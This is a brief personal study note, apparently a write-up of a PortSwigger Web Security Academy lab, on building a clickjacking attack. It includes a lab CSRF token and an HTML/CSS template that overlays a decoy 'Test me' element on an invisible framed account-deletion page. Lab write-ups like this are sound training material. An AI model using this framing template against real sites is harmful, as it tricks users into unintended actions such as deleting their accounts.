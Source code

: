 ```yaml
---
sticker: emoji//1f97c
---
```

Based on the previous note: [[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241021162011.png)
Once we send the exploit to the victim, lab's solved